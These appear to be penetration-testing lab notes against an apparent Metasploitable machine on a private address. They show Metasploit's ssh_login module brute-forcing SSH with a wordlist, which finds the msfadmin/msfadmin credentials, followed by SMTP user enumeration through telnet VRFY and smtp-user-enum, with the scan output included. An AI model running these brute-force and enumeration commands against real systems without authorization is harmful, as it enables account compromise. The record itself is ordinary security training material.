 brute-forced ssh

msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
msf auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
msf auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.0.117

found username: msfadmin
      password: msfadmin

################################################################################################
25/tcp   open  smtp 

> telnet 192.168.0.117 25 
vrfy sys
252 2.0.0 sys

## which means that sys is a user

vrfy admin
550 5.1.1 <admin>: Recipient address rejected: User unknown in local recipient table

## so admin not found

## now we use smtp-user-enum

> smtp-user-enum -M VRFY -U /usr/share/fern-wifi-cracker/extras/wordlists/common.txt -t 192.168.0.117

Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/fern-wifi-cracker/extras/wordlists/common.txt
Target count ............. 1
Username count ........... 478
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Tue Mar 13 19:44:00 2018 #########
 exists.0.117: lp
 exists.0.117: root
 exists.0.117: service
 exists.0.117: sys
 exists.0.117: user
 exists.0.117: MAIL
 exists.0.117: Root
 exists.0.117: SERVICE
 exists.0.117: SYS
 exists.0.117: Service
 exists.0.117: User
######## Scan completed at Tue Mar 13 19:44:23 2018 #########
11 results.
